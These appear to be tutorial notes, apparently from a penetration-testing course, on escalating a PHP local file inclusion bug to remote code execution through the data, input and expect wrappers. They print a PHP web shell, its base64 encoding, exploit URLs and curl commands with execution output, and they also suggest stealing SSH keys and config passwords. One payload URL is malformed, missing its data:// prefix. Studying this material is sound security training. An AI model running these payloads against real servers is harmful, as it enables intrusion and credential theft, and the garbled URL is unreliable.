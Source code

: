 # Remote Code Execution
## PHP Wrappers

Not only we can read files, but we can achieve RCE and execute commands on the backend.

A way to do this is to enumerate user credentials and SSH keys, then use them to login to the back-end via SSH.

For example we can find a db password in a file such as `config.php` which can match the user's password.

Or we can check the `.ssh` directory and if read privileges are not set properly we can grab their private key, and use it to SSH into the system.

### Data

The `data` wrapper can be used to include external data, like PHP code.

But this wrapper can be used only if the `allow_url_include` setting is enabled in the PHP configuration.

It's not really uncommon to see this option enabled, as many web apps rely on it to function, such as some `WordPress` plugins and themes.

#### RCE

With the `allow_url_include` enabled we can use the `data` wrapper attack.

So we will pass some php code in base64 encoded with `text/plain:base64` and it has the ability to decode and execute.

So first let's encode it:

```sh
echo '<?php system($_GET["cmd"]); ?>' | base64

PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7ID8+Cg==
```

Now `URL-encode` it and pass it with the `data` wrapper, and then we can pass commands to the web shell with `&cmd=`.

```http
http://<SERVER_IP>:<PORT>/index.php?language=dcPD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7ID8%2BCg%3D%3D&cmd=id
```

### Input

Similar to the `data` wrapper, `input` wrapper can be used to include external input and execute PHP code.

The difference is that in the `input` wrapper we pass the input as a `POST` request's data.

This means that the vulnerable parameter must accept `POST` requests. 

Same as with the `data` wrapper, in order for this to be successful `allow_url_include` must be set.

```sh
curl -s -X POST --data '<?php system($_GET["cmd"]); ?>' "http://server:PORT/index.php?language=php://input&cmd=id" | grep uid

uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

### Expect

This allows us also to directly run commands through URL streams. 

Here we don't need to provide a web shell, because it is designed to execute commands.

This is an `external wrapper` so it needs to be installed manually and enabled on the back-end server, and some web apps need this for their core functionality.

We can see if itt's installed on the backend in the same way as we did with the `allow_url_include`, but we `grep` for `expect`:

```sh
echo 'W1BIUF0KCjs7Ozs7Ozs7O...SNIP...4KO2ZmaS5wcmVsb2FkPQo=' | base64 -d | grep expect
extension=expect
```

And then the `expect` wrapper can be used as follows:

```sh
curl -s "http://server:PORT/index.php?language=expect://id"
```


